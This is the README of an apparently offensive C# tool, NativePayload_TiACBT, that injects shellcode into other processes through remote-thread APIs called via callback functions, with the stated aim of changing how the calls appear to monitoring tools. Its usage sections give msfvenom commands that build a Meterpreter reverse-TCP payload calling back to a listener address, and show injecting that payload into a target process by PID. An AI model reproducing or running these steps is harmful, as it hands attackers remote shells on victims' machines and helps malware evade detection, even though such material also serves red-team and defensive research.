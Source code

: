 # NativePayload_TiACBT
NativePayload_CallBackTechniques C# Codes (Code Execution via Callback Functions, without CreateThread Native API)<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemmoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behaviour for Calling API Finction (Remote Thread Injection only), as you can see in the Pictures With API onitor tools you can see what happened step by step. (i (i will publish article about this Codes soon...)  

--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```

--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
